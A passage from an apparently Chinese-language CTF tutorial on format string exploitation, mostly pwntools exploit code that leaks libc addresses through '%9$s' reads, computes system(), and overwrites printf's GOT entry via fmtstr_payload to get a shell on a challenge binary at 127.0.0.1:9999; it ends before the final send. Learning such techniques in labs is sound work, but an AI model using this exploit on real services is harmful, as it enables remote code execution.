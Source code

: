 ```python
# print('*'*100)
# print(payload)

# 发送payload
p.sendline(payload)
p.sendline('/bin/shx00')
p.interactive()

```

![3](https://mo-xiaoxi.github.io/img/post/Fmtstr/3.png)

#### 远程EXP：

在远程EXP过程中，还需要leak libc函数地址。

主要方式有两种：

1. 利用DynELF暴力搜索
2. 利用libcdatabase或libdb查询

具体过程如下：

![getlibc](https://mo-xiaoxi.github.io/img/post/Fmtstr/getlibc.png)

这样我们就获取到了对应的偏移地址，就可以撰写最终的EXP了：
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import binascii
# context.log_level = 'debug'

r = remote('127.0.0.1',9999)
r.recv()
r.sendline('moxiaoxi')
r.recv()

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    resp = r.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret


printf_plt_addr = 0x8048490
printf_plt_code = leak(printf_plt_addr)
printf_got_plt_addr = u32(printf_plt_code[2:6])


printf_addr = u32(leak(printf_got_plt_addr)[:4])

print('[+]:printf_addr',hex(printf_addr))

libc_addr = printf_addr - 0x00049670
system_addr = libc_addr + 0x0003ada0

payload = fmtstr_payload(7, {printf_got_plt_addr: system_addr})

# 发送payload
```